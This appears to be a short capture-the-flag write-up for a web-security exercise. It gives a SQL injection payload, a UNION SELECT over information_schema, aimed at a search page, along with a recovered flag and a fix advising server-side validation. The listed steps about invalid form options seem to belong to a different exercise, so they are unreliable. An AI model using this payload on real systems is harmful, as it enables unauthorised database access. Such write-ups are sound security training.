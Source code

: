 # Where: <br>
    /?page=searchimg
# How:
-By entering

    1 union select null, concat (table_name) from information_schema.tables where table_schema = database ()<br>

-Change the value of 1 of the options to an invalid value.
Or
-Add an invalid option.
-Select the invalid value
-Receive the flag
# Flag:
03A944B434D5BAFF05F46C4BEDE5792551A2595574BCAFC9A6E25F67C382CCAA
# Fix:
Store options server side/on backend.All user input should be sanitised and validated (backend).
